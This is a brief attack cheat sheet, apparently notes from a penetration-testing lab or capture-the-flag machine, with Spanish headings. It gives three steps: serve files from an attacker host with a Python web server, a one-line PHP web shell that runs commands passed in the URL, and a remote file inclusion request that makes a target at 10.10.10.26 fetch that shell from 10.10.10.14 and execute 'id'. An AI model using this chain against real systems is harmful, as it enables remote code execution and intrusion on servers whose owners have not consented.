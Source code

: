 ## Servidor WEB

```python
IP = 10.10.10.14

python3 -m http.server 8080
```

## shell.php

```python
<?php system($_GET['cmd']); ?>
```

## RFI

```python
http://10.10.10.26/index.php?language=http://10.10.10.14:8080/shell.php&cmd=id
```
